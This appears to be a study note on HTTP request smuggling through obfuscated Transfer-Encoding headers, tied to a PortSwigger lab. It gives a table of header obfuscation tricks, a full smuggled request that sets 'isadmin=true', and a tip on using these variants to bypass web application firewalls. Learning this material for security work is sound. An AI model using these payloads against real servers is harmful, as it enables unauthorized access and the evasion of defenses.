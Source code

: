 
- **Both front-end & back-end use TE**.
	
- One of the servers is induced to not process TE by obfuscation
	
- Exploits **malformed or duplicate TE headers**.

![[TE Header Obfuscations.png]]
## 🧪 Common TE Obfuscation Tricks
|Technique|Example Header|Why It Works|
|---|---|---|
|**Non-standard token**|`Transfer-Encoding: xchunked`|Some servers ignore invalid TE values → fallback to CL. Others attempt to parse anyway.|
|**Extra space before colon**|`Transfer-Encoding : chunked`|Certain parsers accept it, others don’t.|
|**Trailing junk after chunked**|`Transfer-Encoding: chunked` `Transfer-Encoding: x`|One server may parse as chunked, another sees invalid TE.|
|**Tab character instead of space**|`Transfer-Encoding:[tab]chunked`|Tabs are legal separators in HTTP/1.1 but not consistently handled.|
|**Leading space in header name**|`[space]Transfer-Encoding: chunked`|Some parsers ignore header, others parse it.|
|**Header smuggling with newline**|`X: X[\n]Transfer-Encoding: chunked`|Injects a hidden TE header. Front-end may ignore, back-end parses it.|
|**Header split across lines**|`Transfer-Encoding\r\n: chunked`|Newline before colon splits parsing logic between servers.|
|**Multiple TE headers**|`Transfer-Encoding: chunked` `Transfer-Encoding: cow`|Some servers use **first header**, others use **last**.|
|**Case manipulation**|`tRaNsFeR-eNcOdInG: ChUnKeD`|Case-insensitivity is required by RFC, but parsing bugs exist.|
|**Comma-separated encodings**|`Transfer-Encoding: gzip, chunked`|RFC-compliant but often mis-parsed → servers disagree on order.|

It is necessary to find some variation of the TE header such that only one of the front-end or back-end servers processes it, while the other server ignores it.
![[TE Obfuscation visual.png]]
## 📌 **Example**

```http
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```
💥 Result:
- Front-end ignores malformed TE (`chunked1`) and uses chunked normally.    
- Back-end interprets differently (or falls back to CL).
- Smuggled request (`POST /update`) is executed.

https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header

> **Pro tip:** TE obfuscation is **essential for bypassing WAFs** and modern defenses. If a clean CL.TE/TE.CL payload is blocked, fuzzing TE variants often works.